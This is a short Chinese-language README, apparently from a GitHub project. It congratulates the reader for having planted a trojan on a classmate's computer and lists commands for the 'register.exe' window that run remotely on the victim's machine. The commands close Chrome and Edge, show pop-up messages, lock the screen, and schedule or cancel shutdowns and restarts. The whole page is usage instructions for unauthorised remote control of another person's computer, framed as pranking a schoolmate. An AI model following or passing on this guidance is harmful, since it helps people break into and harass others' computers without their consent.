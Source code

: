 # 很好，你做到了！
同学电脑成功被你植入了木马，现在在那个register.exe窗口里输入以下命令玩玩同学吧（

以下命令将远程执行在同学电脑上！！！

关闭chrome浏览器(谷歌浏览器)【推荐执行这个命令】
```
taskkill -f -im chrome.exe
```
弹窗
```
msg [消息]
```
锁屏
```
lock
```
关机
```
shutdown -s -t [时间，单位为秒，至少为60]
```
重启
```
shutdown -r -t [时间，单位为秒，至少为60]
```
取消关机/重启:
```
shutdown -a
```
关闭edge浏览器
```
taskkill -f -im msedge.exe
```
